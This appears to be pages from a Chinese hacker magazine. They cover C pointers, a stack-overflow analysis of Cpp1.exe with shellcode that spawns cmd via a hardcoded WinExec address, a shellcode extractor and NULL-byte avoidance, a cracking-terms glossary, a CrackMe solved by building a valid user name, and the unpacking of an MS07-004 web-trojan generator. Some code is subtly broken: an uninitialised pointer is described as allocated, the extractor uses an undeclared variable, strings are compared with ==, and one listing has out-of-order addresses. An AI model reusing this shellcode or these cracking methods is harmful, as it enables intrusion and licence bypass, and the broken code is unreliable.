什么是指针？所谓指针其实就是一个变量或一个函数在计算机内存中的地址。也许把指针直接称为“地址”更为确切，更容易被人理解。在 C 语言中，任何变量在使用前都必须先要进行定义，否则就会编译出错，这是因为需要给这个变量在内存中申请一个地址空间。有了一个内存地址空间后，这个变量值就可以存放在这个地址上。比如说一间房子，那么这个房子的地址就是“指针”，其名称则是“指针”值，而房子里面的东西就是“变量值”。

对于一个变量，如何才能获得它的地址呢？C 语言中提供了一种能够获取变量地址的方法，也就是获得某个变量指针的方法。例如：

```c
int x;
int *y;
x=10;
*y=20;


```

在上面的代码中，变量 x 和 *y 在定义时就在内存中申请到一个地址。在 C 编译时，编译器将给这两个变量各分配一个地址代码；在 Windows 系统中，它为一个虚地址。用操作 &x 可以得到变量 x 的虚地址代码，而 y 就是变量 *y 的虚地址代码值，也就是，&x 和 y 分别是变量 x 和 *y 变量的指针。当这两个变量分别申请到一个内存地址空间后，就可以分别给它们赋值了，即上面代码 x=10 和 *y=20 的语句。

在申请变量地址时，所申请到的变量地址代码值与该变量在程序代码中的相对位置有关。有兴趣的话可以做实验来认识这一点。如果能够获得一个应用程序中某个变量的地址代码值，就可以在另外一个应用程序中通过内存访问操作来改变这个变量值。

> **编辑点评：**

本文纯属知识，有比较枯燥，但如作者所说，没有真正搞懂，就无法涉及系统内核，那大家就一起啃吧！

## Spsspcch 漏洞一箩筐 4

- 一宽宽大鱼

**从本文您可以学到：**
利用黑盒测试法来分析程序的错误

以前几篇文章我们找漏洞总是在有源码的情况下进行的，这一次我们要来一次二进制的审计。

### 开胃菜——定位

首先运行 Cpp1.exe 文件，运行后立刻报错，这个程序其实大多以前见过，至于在哪里，大家可以看看以前的杂志。既然报错，那么我们就用 OD 调试看看，不过事先得用 PEiD 检测一下有没有加壳，如图 1 所示。

既然没有，那就直接用 OD 对其进行加载，根据 PEiD 提供的入口点直接介入。
图 1 程序报错信息及 PEiD 的检测结果

```asm
004010B1 >/$ 55              push ebp
004010B2   . 8BEC           mov ebp,esp
004010B4   . 6A FF          push -1
004010B6   . 68 B0604000    push Cpp1.00406080
004010BB   . 68 F8264000    push Cpp1.004026F8
```

SE 处理程序安装……这一部分省略掉没有用的，一直 F8 单步过。

```asm
0040114F   . A3 3C994000    mov dword ptr ds:[40993C],eax
00401154   . 50             push eax
00401155   . FF35 30994000  push dword ptr ds:[409930]
0040115A   . FF35 2C994000  push dword ptr ds:[40992C]
00401160   . E8 EBEEFFFF    call Cpp1.00401050

Cpp1.00401050
00401050   /$ 83EC 1C       sub esp,1C
00401053   . B9 09000000    mov ecx,9
00401058   . 8D4424 08      lea eax,dword ptr ss:[esp+8]
```

```asm
0040105C   56               push esi
0040105D   57               push edi
0040105E   BE 34704000      mov esi,Cpp1.00407034
ASCII  "1234567890abcdefghijklmnopqrstuvwxyz"
00401063   8D7C2408         lea edi,dword ptr ss:[esp+8]
00401067   F3 A5            rep movs dword ptr es:[edi],dword ptr ds:[esi]
00401069   68 78030000      push 378
0040106E   50               push eax
0040106F   A4               movs byte ptr es:[edi],byte ptr ds:[esi]
00401070   E8 8BFFFFFF      call Cpp1.00401000
```

```asm
Cpp1.00401000
00401000   /$ 8B4424 08      mov eax,dword ptr ss:[esp+8]
00401004   . 83EC 08         sub esp,8
00401007   . 56              push esi
00401008   . 57              push edi
00401009   . 50              push eax
0040100A   . 68 30704000     push Cpp1.00407030
0040100F   . E8 6C000000     call Cpp1.00401080
00401014   . 8B7C24 1C       mov edi,dword ptr ss:[esp+1C]
00401018   . 33C9            xor ecx,ecx
0040101A   . 33C0            xor eax,eax
0040101D   . 8BCA            mov ecx,edx
00401020   . F2 AE           repne scas byte ptr es:[edi]
00401022   . F7D1            not ecx
00401024   . 2BF9            sub edi,ecx
00401026   . 8D5424 08       lea edx,dword ptr ss:[esp+8]
0040102A   . 8BC1            mov eax,ecx
0040102C   . 8BF7            mov esi,edi
0040102E   . 8BFA            mov edi,edx
00401030   . C1E9 02         shr ecx,2
00401033   . F3 A5           rep movs dword ptr es:[edi],dword ptr ds:[esi]
00401035   . 8BC8            mov ecx,eax
00401037   . 83E1 03         and ecx,3
0040103A   . 33C0            xor eax,eax
0040103C   . F3 A4           rep movs byte ptr es:[edi],byte ptr ds:[esi]
0040103E   . 5F              pop edi
0040103F   . 5E              pop esi
Cpp1.0040704D
00401040   . 83C4 08         add esp,8
00401043   . C3              retn
```

从 Cpp1.00401000 开始看 esp，一开始的 sub esp,8 分配了八个字节的空间，继续 F7，通过参数判断 call Cpp1.00401080 应该是调用目的 printf 函数，F7，看看程序的窗口，输出了 888；证明猜测正确。在数据窗口中显示 esp 的值时，你会发现在运行到 00401020 位置的时候 esp 为 0012FF54 75 10 40 00 @...n，如果不出什么差错的话，平衡堆栈以后正确的返回地址就是这里了，可是当执行到 retn 的时候却发现：

```text
0012FF4C  31 32 33 34 35 36 37 38 39 30 61 62 63 64 65 66
```

## 满汉全席

呼呼，被覆盖了~~看看 ASCII 码，好了原因找到了，位置也找到了！8 个位加上基地址的 4 个，所以第 12 个字符开始覆盖 esp 的数据了，内存状态如表 1 所示。

- 低地址
- 1234
- 5678
- 保存的 ebp（90ab）
- 返回的 eip（cdef）
- 高地址

表 1 内存状态

好了，开完胃上大菜了~~~

当一个 ShellCode 在 Win 下面工作时，那么你要做好心理准备了，只要设计的 ShellCode 稍大点，就可能花费相当多的时间。写 Win 下的 ShellCode 那个过程的确有点麻烦，每当用 UE 打开文件以后，要慢慢地寻找 ShellCode 所处的位置，一次、两次……N 次，真的好累，那么我们是不是可以自己写一个专门的十六进制编辑器呢？而且是一个专门为了自动提取 ShellCode 用的！好了，废话不多说了，大家看源码里面的注释吧。

```c
#include <windows.h>
#include <stdio.h>
#include <assert.h>
#define SHELL_CODE_FILE "ShellCode.txt"

int main(int argc,char *argv[])
{
    FILE *pFILEsh_co;
    int i;
    char *pSHELL_CODE = NULL;
    int shco_ln;

    pFILEsh_co = fopen(SHELL_CODE_FILE,"w+");
    if (pFILEsh_co == NULL)
    {
        printf("打开文件失败！\n");
        exit(0);
    }

    goto Get;
    __asm
    {
shco_st:        // ShellCode 从这里开始
        xor eax,eax
        push 0x646D63cc
        mov [esp+3],eax
        mov esi,esp

        push 0xcccccccc
        push esi
        mov eax,0x7c86136d    // 把要执行的函数地址存入 eax 以供调用
        call eax

        lea esp,[esi+4]
        // ShellCode 从这里结束
shco_end:
    }
Get:
    __asm
    {
        pushad
        lea edx,shco_st       // 得到 ShellCode 开始地址
        mov pSHELL_CODE,edx
        lea eax,shco_end      // 得到 ShellCode 结束地址
        sub eax,edx           // 计算 ShellCode 长度
        mov _shco_ln,eax      // 保存长度
        popad
    }

    fputc('{',pFILEsh_co);
    for(i = 0; i < _shco_ln; i++)
    {
        fputc('\\',pFILEsh_co);
        fputc('x',pFILEsh_co);
        fprintf(pFILEsh_co,"%2x",(unsigned char)pSHELL_CODE[i]);
    }
    fputc('}',pFILEsh_co);
    fprintf(pFILEsh_co,"\n\n\n\n\r\rShellCode 长度为：%d\n", _shco_ln);
    fclose(pFILEsh_co);
    return 0;
}
```

好了代码看完了，我想大家也应该知道我要干什么了，只要把你的 ShellCode 放到 shco_st 和 shco_end 之间，再把程序编译一下就成了。这时候也许还有人会说：“我不是用的 PEB 结构写的通用的 ShellCode，我追求的是绝对的效率，可是我每个函数的地址好麻烦啊。”我的答案（只写出一部分，而且这不是最优的方法！）是这些源码：

```c
#include <windows.h>
#include <stdio.h>
#define DLL_kernel32 "c:\\windows\\system32\\kernel32.dll"
#pragma

void main(int argc, char *argv[])
{
    HANDLE hDLL = NULL;

    if (argc != 3)
    {
        printf("\n\rusage:%s <dll 名称> <函数名称>\n", argv[0]);
    }

    DWORD SysFunc1;
    if (argc == 3)
    {
        if (argv[1] == "kernel32.dll") hDLL = LoadLibrary(DLL_kernel32);
        SysFunc1 = (DWORD)GetProcAddress(hDLL, argv[2]);
        printf("%x", SysFunc1);
        FreeLibrary(hDLL);
    }
}
```

剩下的是 NULL 字节的问题，因为通常是利用字符串函数将 ShellCode 注入到程序内存中的，而且大多数字符串函数都会将 NULL 字节作为终止符，这样一来我们的 ShellCode 就执行不完了。还好有办法可以防止 ShellCode 中出现 NULL 字节。比如明确要求用值 1 来填充 eax 这个 32 位寄存器的时候，我们可以用 8 位的 al 来代替 eax。带有 NULL 字节的字符串做参数时，编写标准的汇编程序时字符串是这样的：“cmd", 0x00……”，那么在使用它的时候 ShellCode 就会包含一个 NULL 字节了，可以这样：

```asm
xor eax,eax
push 0x646D63cc        // 十六进制的 ASCII 码
mov [esp+3],eax


```

对 eax 做异或运算，使 eax 的值置为 0 或 NULL，将 eax 放在离字符串 3 个字节的地方，这样一来“cmd”以 NULL 结束，然后就不用在这个 ShellCode 里面使用 NULL 字节了。

现在所有的问题都解决了，当然除了程序的缺陷部分。我的论坛 ID 是魔幻水晶，欢迎大家一起交流。

> 【作者提到的 Spsspc 洞洞一条龙 4 相关程序已经收录在光盘中】

编辑点评：黑盒测试法的典型例子，当我们要制作 ShellCode 时，多数情况下都是在未知代码的前提下进行的，所以本文介绍的方法是很重要的。

## Cracker

## 86 的膝言啰语

大家好，不经不觉又到元旦了，冬天很快过去而春天又会很快到来，听说好像是五一长假取消了，换上了一些传统节日变成了法定节日，我倒觉得这样很好，起码一些学生会知道一些传统节日。有时候，你真的很难想象一些小学生并不知道端午节、重阳节等节日是几月几日。长假取消了，可能有些商家就失望了，毕竟长假能够很容易带来丰厚的利润，不过这件事不知是好是坏，我没去考究来源！

近来看了一些与软件有关的 ODAY 文章，发现其实许多来源于 OD 和 IDA 的调试。事实上，这两款工具的确是非常强大的，尤其是 IDA，是病毒分析必不可少的利器。或许你会奇怪很多病毒的解决方案是如何得出来的呢？我可以告诉你，就是通过调试。但对于病毒分析来说，很多人会选择 IDA，因为它可静态分析，当然并不是说 OD 就不行，只是看你的爱好了。

当然，要分析出这些东西，并不是你能够找我注册吗，或者爆爆软件，就能够胜任的，得有起码的 C、汇编等编程基础，尤其是 C。所以很多高手会建议你学习一段时间编程之后再学习破解，这样进步是神速的，起码我见过好几个都如此，进步很快！所以学习好破解，掌握好破解的方法，并不是只能用来破解软件，有时候当你看到一个软件有溢出的情况，并且去调试它，去了解它，或许你就会是那个 ODAY 的发现者了。

不知道大家有没有感觉，有些 ODAY 的发现，其实很多是调试高手，但发现一个 ODAY 并不是高手的专利，如果我们打好基础再去研究的话，我想菜鸟也能变高手了。不要害怕自己基础差，经验不足，我想说的是，只要你努力并坚持下去，迟早是有回报的。当然这也要看你的兴趣。有人说，兴趣是最好的老师，而搜索引擎则是最好的百科全书，加上这些条件，我相信下一个 ODAY 发现者就是你了。

## 8月破解新闻

- 1. PYG 论坛 3 周年庆典

PYG 全称“The PiaoYunGe Cracking Group Of China”，是由原中国破解联盟成员“飘云”等电子、电脑爱好者共同创建的中国初学者破解组织，成立于 2004 年 12 月 1 日。在上个月，PYG 论坛迎来了三周年的庆典，这是一件喜事。三年来，PYG 人才辈出，培养一代又一代 Cracker，可以说 PYG 确实是桃李满天下啊！PYG 在三周年庆典搞了一系列的活动，比如开放注册、官方大礼包、视频解密大赛、脱壳竞赛、Delphi 教学初级班正式启动等等。看来自这个庆典内容的确是丰富多彩，如果你想对 PYG 了解更多或者想加入 PYG 组织，可以到官方论坛获取更多信息，论坛地址是：bbs.chinapyg.com。

相关连接：http://bbs.chinapyg.com/forumdisplay.php?fid=148

- 2. themida/winlicense 脱壳机 2.0

okdodo 大侠出品的一个脱壳机，记得很早的时候才是 1.0 的，没想到这么快就升级到 2.0 了。相信一些使用 themida/winlicense 加壳的软件可能就要遭殃了，所以这个脱壳机的发布，对破解来说，是一个爆炸性新闻。程序使用很简单，载入后点一下“unpack”就 OK 了，当然如果不能脱或者版本过低的话，程序会自动提示你的。

- 3. 看雪论坛「技术小组」开始报名组建啦

以前看雪论坛基本上很少组建这样的小组，不过随着论坛的发展，也为了更好地培养破解人才，所以大家都不要错过这么好的一个机会哦。基本要求很简单，只要你在看雪论坛注册时间满两个月，至少 1 篇精华帖，而且遵守论坛各项规章制度，服从论坛统一管理，维护论坛利益和形象，对待论坛认真负责，那么就有机会申请加入这个小组了。如果你还想获得更多的加入信息，可以访问看雪论坛置顶帖！
图 1

相关连接：http://bbs.pediy.com//showthread.php?t=55631

## 每日破解资源

## 冷血书生破文集

引用作者原话：“本文集收集了本人自学破解以来的破解文章，其中有大部分已流失，现仅存几篇，制作成电子书，方便自己保存，也方便大家阅读和学习，高手跳过。本文集中所有文章版权归原作者所有。一切商业媒体如要引用本文集内容时请注明作者及出处！本文集纯属学习研究性质，对于您使用本文集中技术所导致的一切后果本人不负任何责任！”
图 2

作者是国内多个破解组织成员，目前 OCN 组织论坛管理员，这是非常好的算法入门电子书，主要是因为内容都是作者的一些学习经过，虽然有点残缺不全，但是每篇内容都是完整的，希望此文集对你进入算法的大门有些帮助。

相关连接：http://ocn.e5v.com/bbs/viewthread.php?tid=2911
从本文你可以学习到：

## 常见破解术语

call，这 call 不是那 call（叫人或者打电话），这个 call 在程序上，一般称为子程序。在编程的时候，定义好后，使用代码可以将其调用，这不必深入研究，只需知道 call 是有调用的作用就 OK 了，下面会说到两个与 call 有关的术语。

### 关键 call

一般就是指一个非常关键的地方，而且这一个必然是一个 call。比如在使用 OD 对一个程序载入之后，会看见 00507D14 E8 47530000 call XXXXXX 这种代码，在此 call 基本会包含着一个程序的算法在那里。当然，有些作者很懒的话，可能会没有关键 call，但我遇上的，八九成都有关键 call。

### 算法 call

顾名思义，就是一个计算注册码的地方，软件作者对注册码算法事先写在某个子程序上面，然后使用代码将其调用出来验证注册信息是否合法，所以喜欢研究算法的朋友，对这个 call 一定是很熟悉的了！

### 关键跳转

一个比较经典的注册流程，通过某一处判断注册信息是否合法，然后根据是否合法分别出现两个分支，一个分支走向成功，一个分支走向失败。在这之前的一个判断，一般就认为是关键跳转。修改这个跳转后，无论输入什么信息（真的注册码除外）都会走向成功的那个分支。

### 无狗解狗

一般指一个软件使用了加密狗、加密锁等手段加密，破解者因为没有匹配的解密工具，而对软件进行破解的一种方式。一般这种破解方法都采用爆破，使其强行跳过加密狗、加密锁等的检测，从而可以使用到在有狗的情况下的软件功能。

### 重启验证

是指当你输入了注册信息之后（无论真假），程序会自动提示你重新启动软件，或者说你的注册信息已经保存。当然有时候它也不会提示你，当你发现属于满足前面所说的条件之一，应当考虑重启验证了。

### patch

经常你会看到某某软件的 patch，其实意思就是补丁。虽然如此，但我觉得最好理解为修改代码，毕竟打了补丁始终还是修改了代码。只是这个是补丁作者制作好的补丁，按一下就会自动打补丁；但在脱壳的时候，也会用到 patch，这个就是手动的了。所以无论是使用了制作好的补丁，还是自己改代码，最终结果还是修改代码。

### 万能断点

在 Windows 98 下做软件调试时有一个 API 函数 HMEMCPY，通常被称为万能断点，但是现在大家都很少使用 Windows 98 系统了，所以这个断点基本就使用不上了。虽然如此，有人还是发现了在 NT 下也可以使用万能断点，就是在 USER32 模块中搜索十六进制字符 F3 A5 8B C8 83 E1 03 F3 A4 E8，找到的地址就是你 XP 系统唯一的一处万能断点。如果目标程序是 VB 的话，还可以使用 OD 的插件自动下万能断点，免去搜索之苦。

### 花指令

反汇编的大致过程是：首先会确定指令开始的首地址，接着根据这个指令字判断是哪个汇编语句，然后再将后面的数据反汇编出来。由此，我们可以看到，在这一步的反汇编过程中存在漏洞：如果有人故意将错误的机器指令放在了错误的位置，那反汇编时，就有可能连同后面的数据一起错误地反汇编出来，这样，我们看到的就可能是一个错误的反汇编代码，这就是“花指令”。简而言之，花指令是利用了反汇编时单纯根据机器指令字来决定反汇编结果的漏洞。花指令主要是干扰那些反编译工具的，可以让反编译工具得不到正确的汇编码。现在很多人利用花指令对木马进行免杀，就是让杀毒软件误认为这些是正常的代码。

### SMC 技术

SMC 是英文 Self-Modifying Code 的缩写形式，也就是说可以在一段代码执行之前先对它进行修改。SMC 技术在 DOS 时代非常流行，因为 DOS 时代更接近系统底层，所以即使是现在实现 SMC 技术，都以汇编码最为方便。SMC 技术在带壳破解的时候实用性是非常强大的，这样就可以实现不脱壳破解了。

### 标志位

随着学破解的深入，你会慢慢了解到标志位爆破是一个非常好用的爆破方法，有时候一般的爆破并不能够对软件的注册产生影响，而标志位爆破就能够使软件完全解除了功能限制，是一种比较完美的爆破方法。常见的就是对 eax 赋 1，也就是说，当 eax 的值为 1 的时候，将会被判断为注册成功，而 eax 为 0 的话，就表示注册失败。在以后的学习中，我将为大家详细介绍这种方法的使用，这里就不多说了。

### 重定位

一般来说，主要用于被脱壳后的 dll，因为 dll 被某些壳加壳后，会对 dll 产生一定的保护作用，可能将 dll 的某些数据转移了。在脱壳之后，程序因为 dll 问题有可能不能正常运行，所以要将脱壳后的数据重新定位到可运行状态。

### MD5

MD5 中文意思为信息摘要算法，是一种密码算法，它可以对任何文件产生一个唯一的 MD5 验证码。每个文件的 MD5 码就如同每个人的指纹一样，都是不同的，这样一旦这个文件在传输过程中，其内容被损坏或者被修改的话，那么这个文件的 MD5 码就会发生变化。通过对文件 MD5 的验证，可以得知获得的文件是否完整。比如现在很多修改软件发布的时候都会带上 MD5 信息，而在软件上主要用于对注册信息的加密。

### DES

DES 算法全称为 Data Encryption Standard，即数据加密算法。DES 算法的入口参数有三个：Key、Data、Mode。其中 Key 为 8 个字节共 64 位，是 DES 算法的工作密钥；Data 也为 8 个字节 64 位，是要被加密或被解密的数据；Mode 为 DES 的工作方式，有两种：加密或解密。以前我遇见过的一个叫白雪考试系统的软件，其注册方式就是使用了这种算法。

### base64

Base64 是网络上最常见的用于传输 8Bit 字节代码的编码方式之一。在发送电子邮件时，服务器进程的用户代码需要用 Base64 编码，附件也需要用 Base64 编码。Base64 要求把每三个 8Bit 的字节转换为四个 6Bit 的字节（3*8 = 4*6 = 24），然后把 6Bit 再添两位高位 0，组成四个 8Bit 的字节，也就是说转换后的字符串理论上将要比原来的长 1/3。例如：

```
转换前：10101101  10111010  01110110
转换后：00101011  00011011  00101001  00110110
十进制：43  27  41  54
对应码表中的值：rbp2


```

### 暗桩

其实就是软件通过注册信息注册成功后，还会存在一些功能不能使用，或者在注册成功了一段时间后有些功能不能够再使用。很常见的有代表性的软件就是里诺系列软件、佳宜系列软件等等。

### SDK

Software Development Kit，提供一个接口给使用者，与壳发生交互作用增加强度。SDK 是包含了头文件、导入库、例子代码等东西的一套东西。有时特指 Platform SDK，用于调用各种系统 API，有时把 raw API 与 SDK 对等看待，SDK 是 C 风格的 API 编程。比如 Asprotect、tmd 壳等都能够加上 SDK，使

脱壳难度大大地增加了。

## UDD

OllyDbg 把所有程序或模块相关的信息保存在单独的文件中，并在模块重新加载时继续使用。这些信息包括标签、注释、断点、监视、分析数据、条件等等。再说简单点，就是你工作的时候，突然有点事要出去一下，这时可以把记录保存在一个文件里面，等回来的时候，还可以接着处理。OD 的这个记录是自动保存的，如果你不需要这些记录，可以到 OD 目录下删除这些文件。

## 文件偏移地址

英文名称为 File Offset，PE 文件在磁盘上储存时，各数据的地址称文件偏移地址。用十六进制工具（例如 WinHex 等）打开文件显示的地址，就是文件偏移地址。

## 虚拟地址

英文名称为 Virtual Address，简称 VA。由于 Windows 程序是运行在 386 保护模式下，这样程序访问存储器所使用的逻辑地址称为虚拟地址。与实地址模式下的分段地址类似，虚拟地址也可写成“段：偏移量”的形式，这里的段是指段选择器。

## 基地址

英文名称为 ImageBase，文件执行时将被映像到指定内存地址中，这个初始内存地址称为基址。在 Windows NT 中，缺省值是 10000h；对于 DLLs，缺省值为 400000h。在 Windows 9x 中，10000h 不能用来装入 32 位的执行文件，因为该地址处于所有进程共享的线性地址区域，因此 Microsoft 将 Win32 可执行文件的缺省基址也改为 400000h。

## 相对虚拟地址

英文名称为 Relative Virtual Address，简称 RVA，表示此段代码在内存中相对于基地址的偏移，即：相对虚拟地址（RVA）= 虚拟地址（VA）- 基址（ImageBase）。

## 编辑点评

有读者反映在 10 期刊登的《常见破解术语简单介绍》有些意犹未尽，于是原作者在经过小编一番狂轰滥炸之后答应再续写一篇，以供读者学习。内容基本都是一些在破解时非常有可能用到的词汇，所以大家千万别错过这次的机会哦！
## 投机取巧破解 Crackme 的实例

KYO

- 从本文你可以学到：
- 利用算法漏洞来得到注册信息

近来无事，为了陶冶情操，还是去找个 Crackme 玩一玩。这次就以 aCaFeeL's CrackMe V5（动画版）为例子吧。它这个算法存在漏洞，致使我们可以通过注册码来算用户名，从而使其简单化。原版加的壳，不过是个压缩壳，可以直接用 ESP 定律来脱，我就不多说了。脱壳完运行后显示一个对话框。看来首先还有个烦人的小窗口，即 NAG。这个好说，载入 OD，然后下断 bp MessageBoxA，可断到如下位置。
从代码可以看到，从 004047B8 开始就有参数入栈，一共有 4 个参数，明显是 MessageBox 的参数，我们就从 004047B8 到 004047C3 全部 NOP 掉。然后保存即可。再次打开发现已经没有 NAG 了，如图 2，第一步工作完成。
界面挺漂亮的，上面还有动画。不过从每次启动上面 key 的变化得知，它不是一个固定的值，这个先不管。还是载入 OD 慢慢分析吧。写上 name：kyo327，code：1234567，老规矩，还是使用 OD 插件的万能断点下断，可以来到这里。

```asm
0040EA40    MOV EAX,DWORD PTR SS:[EBP-8]
0040EA43    CALL CrackMe~004030D8
0040EA48    MOV EBX,EAX
0040EA4A    TEST EBX,EBX
0040EA4C    JE SHORT CrackMe~0040EA71
0040EA4E    MOV ESI,1
0040EA53    LEA EDX,DWORD PTR SS:[EBP-C]
0040EA56    MOV EAX,DWORD PTR DS:[410530]
0040EA5B    MOV EAX,DWORD PTR DS:[EAX+54]
0040EA5E    CALL CrackMe~00407AA8
0040EA63    MOV EAX,DWORD PTR SS:[EBP-C]
0040EA66    MOVZX EAX,BYTE PTR DS:[EAX+ESI-1]
0040EA6B    ADD EDI,EAX
0040EA6D    INC ESI
0040EA6E    DEC EBX
0040EA6F    JNZ SHORT CrackMe~0040EA53
0040EA71    MOV EAX,EDI
0040EA73    SHL EAX,2
0040EA76    MOV EDI,EAX
0040EA78    LEA EDX,DWORD PTR SS:[EBP-14]
0040EA7B    MOV EAX,DWORD PTR DS:[410530]
0040EA80    MOV EAX,DWORD PTR DS:[EAX+4C]
0040EA83    CALL CrackMe~00407AA8
0040EA88    MOV ECX,DWORD PTR SS:[EBP-14]
0040EA8B    LEA EAX,DWORD PTR SS:[EBP-10]
0040EA8E    MOV EDX,CrackMe~0040EAF0
0040EA93    CALL CrackMe~00403124
0040EA98    MOV EAX,DWORD PTR SS:[EBP-10]
0040EA9B    CALL CrackMe~004053F8
0040EAA0    MOV EBX,EAX
0040EAA2    SUB EBX,1999
0040EAA8    MOV EAX,EBX
0040EAAA    MOV ECX,27
0040EAAF    CDQ
0040EAB0    IDIV ECX
0040EAB2    MOV EBX,EDX
0040EAB4    MOV EDX,DWORD PTR SS:[EBP-4]
0040EAB7    LEA EAX,DWORD PTR DS:[EBX+EDI]
0040EABA    CALL CrackMe~00405430
```

从上面的分析很详细，我就不多说了。总之这里得到一个 y3，接着往下走，可以来到这里。

```asm
0040BEB5    MOV EAX,DWORD PTR SS:[EBP-4]
0040BEB8    PUSH EAX
0040BEB9    LEA EAX,DWORD PTR SS:[EBP-8]
0040BEBC    CALL CrackMe~0040EAF4
0040BFC1    MOV EDX,DWORD PTR SS:[EBP-8]
0040BFB4    POP EAX
0040BEF5    CALL CrackMe~004031E8
0040EBFA    JNZ SHORT CrackMe~0040EC01    ; 如果相等：eax=0，否则跳向失败。
0040EBFC    CALL CrackMe~0040EB90
```

根据上面的注释，流程已经很清楚了，关键就是这个 CALL 0040EAF4。这个应该是根据注册码算出来的一个数，因为我每次设置 code 是 1234567，走到这里出来的数都是 1456。那么我们就可以不去管这个 CALL，就固定 CODE=1234567，然后根据那个 1456 来推用户名吧。很明显是作者算法的一个小漏洞。

因为 1456 的 16 进制是 0x5B0，现在设 key=0x2121C357，那么 ((0x2121C357-0x1989) mod 0x27) + (x1 shl 2) = 0x5B0，这个算式上过小学的都会求吧，可得到 x1=0x16C，也就是说用户名的 ASCII 码每一位相加等于 0x16C 即可。这个大家肯定也会构造，给出一组正确的吧。

```text
key: 2121C357
user: ky32#
code: 1234567


```

显示注册成功了，呵呵，简单吧？有时候破解不需要按常理出牌，也许能得到意外的惊喜哦。这个 Crackme 非常简单，适合新手练习，可以增强自信。至于它里面的 key 是如何计算的，还有 CALL 0040EAF4 如何根据注册码算出来数的，这个我懒得深究，有兴趣的朋友不妨深入进去玩玩。其实本文也就是给大家一个破解过程中的一个思路而已。

> 【本文介绍的相关工具和程序已收录在本期光盘中】

## 编辑点评

其实要成功获得一个注册信息，并不只是通过用户名算出注册码，当然也可以通过注册码推出用户名，这就是逆向工程的魅力所在。只要能够获得注册信息，正向或是反向，又有什么所谓呢？只要达到了目的，那么努力就没有白费了。

## 网马生成器脱壳：双层壳

从本文你可以学习到：

- 未知壳和北斗壳脱壳过程

好长时间了，微软终于冒出一个 MS07-004 的漏洞，喜欢漏洞的我们当然是不能错过这个新鲜出炉的漏洞呀。我到网上辛苦找了 2 个小时，终于找到了一个能用的生成器，“天使之翼 MS07-004 过 SP2 网马”。我用我的实验机器做了下测试，是可以用的。我想这个网马最大的缺点就是卡到要死，还要挂 IE 来运行马。说了这么多，就是因为我们今天的主角就是这个生成器，我们就拿它来给大家演示一下如何脱未知壳。

- OllyDbg 1.10（调试工具）
- PEiD 0.94（查壳工具）
- ImportREC V1.42（修复工具）

步入正轨，先来说一下要用到的工具。我们用 PEiD 来查一下是什么壳，如图 1 所示。
这样我们试下看看能不能用 PEiD 自带的通用脱壳插件把这个壳脱去。

结果是可以脱去的，而我们并不是为了结果而去脱，我们关注的是过程，要不永远只是个 Tools user。下面我就来手工脱一下这个壳，用 OllyDbg（以下简称为 OD），F3 载入程序：
```asm
0043E14C > E8 BA000000     CALL 天使之翼.0043E20B    // 程序的入口点
0043E151   0300            ADD EAX, DWORD PTR DS:[EAX]
0043E153   0000            ADD BYTE PTR DS:[EAX], AL
0043E155   00C0            ADD AL, AL
0043E157   0300            ADD EAX, DWORD PTR DS:[EAX]
0043E159   0010            ADD BYTE PTR DS:[EAX], DL
```

入口点是一个 CALL，按 F7 步入：

```asm
0043E20B   5E              POP ESI              // 此处是 CALL 入点
0043E20C   83C6 64         ADD ESI,64
0043E20F   AD              LODS DWORD PTR DS:[ESI]
0043E210   50              PUSH EAX
0043E211   AD              LODS DWORD PTR DS:[ESI]
0043E212   50              PUSH EAX
0043E213   83EE 6C         SUB ESI,6C
```

在这里要让程序一直向下走，按 F8 一路步过：

```asm
0043E237   8BE8            MOV EBP,EAX
0043E239   AC              LODS BYTE PTR DS:[ESI]
0043E23A   84C0            TEST AL,AL
0043E23C   75 FB           JNZ SHORT 天使之翼.0043E239
0043E23E   AC              LODS BYTE PTR DS:[ESI]
```

在 0043E23C 处，有向上的跳，不要它跳了。在走到 0043E23C 时，鼠标点到 0043E23E 处，按 F4 跳过：

```asm
0043E244   AD              LODS DWORD PTR DS:[ESI]
0043E245   A9 00000080     TEST EAX,80000000
0043E24A   75 08           JNZ SHORT 天使之翼.0043E257
0043E24C   83EE 04         SUB ESI,4
0043E24F   56              PUSH ESI
0043E250   55              PUSH EBP
0043E251   FF53 04         CALL DWORD PTR DS:[EBX+4]
0043E254   AB              STOS DWORD PTR ES:[EDI]
0043E255   EB E2           JMP SHORT 天使之翼.0043E239
```

一路风光地来到了这里，看到 JMP 在这里跳来跳去的，好不郁闷。在此处，向下拉一点：

```asm
0043E262   E8 DA           JMP SHORT 天使之翼.0043E23E
0043E264   83EB 44         SUB EBX,44
0043E267   8BF3            MOV ESI,EBX
0043E269   AD              LODS DWORD PTR DS:[ESI]
0043E26A   50              PUSH EAX
0043E26B   C3              RETN                // 在此处 F2 下断点
```

在 0043E26B 处下断，F9 运行，就停在了 0043E26B 处；删除断点，F8 步过：

```asm
004202EE  9C        DB 9C
004202EF  60        DB 60
004202F0  E8        DB E8
004202F1  00        DB 00
004202F2  00        DB 00
004202F3  00        DB 00
004202F4  00        DB 00
004202F5  5D        DB 5D
004202F6  B8        DB B8


```

就跳到了这里。以前的经验是，看到这个，基本就是脱壳结束，DUMP 出来，用 PEiD 查下壳（如图 3）。
竟然还有一层壳“nSpack V2.9 -> LiuXingPing *”。于是就再回到 OD，按下“Ctrl+A”分析代码：

```asm
004202EE  9C              PUSHFD
004202EF  60              PUSHAD
004202F0  E8 00000000     CALL 天使之翼.004202F5
004202F5  5D              POP EBP
004202F6  B8 07000000     MOV EAX,7
```

就看它的真面目了，看到 32 位的 PUSHFD、PUSHAD 指令了吧？有脱壳经验的同志们就知道 F8 步过向下找 POPFD、POPAD 指令了。找到了 POPFD、POPAD，在它的下面就离程序真正的 OEP 不远了。就按照这个思路，F8 步过，经过了长途跋涉终于来到了这：

```asm
00420565  74 0A           JE SHORT 11.00420571
00420567  61              POPAD
00420568  9D              POPFD
00420569  B8 01000000     MOV EAX,1
0042056E  C2 0C00         RETN 0C
00420571  61              POPAD
00420572  9D              POPFD
00420573  E9 BCCDFFFF     JMP 11.00401334    // 真正的 OEP
```

看到了要看到的东西，POPAD、POPFD，下面就是一个 JMP，这个 JMP 就是跳到真正的入口点的关键跳了。我们跳过去：

```asm
00401334  68 70984100     PUSH 11.00419870
00401339  E8 EEFFFFFF     CALL 11.0040132C
0040133E  0000            ADD BYTE PTR DS:[EAX],AL
00401340  0000            ADD BYTE PTR DS:[EAX],AL


写在前面：

```

DUMP 出来，用 PEiD 查下壳，显示是“Microsoft Visual Basic 5.0 / 6.0”，看到这个程序是用 VB 写的。我说这东西怎么这么大呢，一开始我还以为是插入了马呢，原来是 VB 写的这个大家伙。我们来运行一下，看到程序运行错误，如图 4。
